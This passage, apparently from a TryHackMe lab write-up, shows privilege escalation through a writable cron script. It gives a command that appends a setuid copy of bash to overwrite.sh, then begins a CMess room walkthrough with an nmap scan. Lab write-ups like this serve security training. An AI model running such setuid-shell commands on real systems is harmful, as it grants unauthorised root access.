 ## Privilege Escalation via File Overwrite

If we have permission to overwrite a crontab task, such as the one shown below:

![Privilege Escalation](./Image/42.png)

![Privilege Escalation](./Image/46.png)

We can exploit this by using a similar method to the previous examples to gain root access. Here’s the command to modify the `overwrite.sh` script:

```bash
echo 'cp /bin/bash /tmp/bash4; chmod +s /tmp/bash4' >> /usr/local/bin/overwrite.sh
```

![Privilege Escalation](./Image/47.png)

# Challenge #2: CMess Room

**Link**: [TryHackMe CMess Room](https://tryhackme.com/r/room/cmess)

### Initial Nmap Scan

To begin, we performed an Nmap scan to identify open ports on the target machine.

```bash
nmap -T4 10.10.108.161
```
